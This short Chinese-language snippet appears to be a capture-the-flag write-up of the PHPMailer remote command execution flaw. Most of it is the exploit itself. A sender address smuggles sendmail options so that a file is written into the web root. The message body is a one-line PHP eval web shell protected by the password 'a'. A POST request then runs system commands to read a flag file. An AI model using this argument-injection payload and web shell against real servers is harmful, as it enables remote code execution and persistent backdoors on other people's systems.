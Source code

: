 ## **PHPMailer远程命令执行漏洞**
```
发件人：yq1ng

邮箱："attacker\" -oQ/tmp -X/var/www/html/shell.php soapffz"@gmail.com

内容：<?php @eval($_POST[a]);?>

然后访问 URL/shell.php，密码为a。直接POST：a=system('cat /flag_is_here');即可
```